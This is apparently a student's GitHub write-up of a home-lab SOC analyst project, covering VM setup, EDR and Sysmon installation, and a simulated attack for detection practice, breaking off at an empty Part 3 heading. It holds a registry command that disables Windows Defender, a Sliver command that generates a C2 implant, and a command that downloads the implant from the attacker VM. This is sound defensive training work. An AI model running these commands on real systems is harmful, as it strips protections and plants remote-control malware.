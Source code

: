 # So You Want to be a SOC Analyst
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

5.YARA scanning

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. YARA

5. Kali Linux 

## Steps
# PART 1. 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

## Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

##PART 3


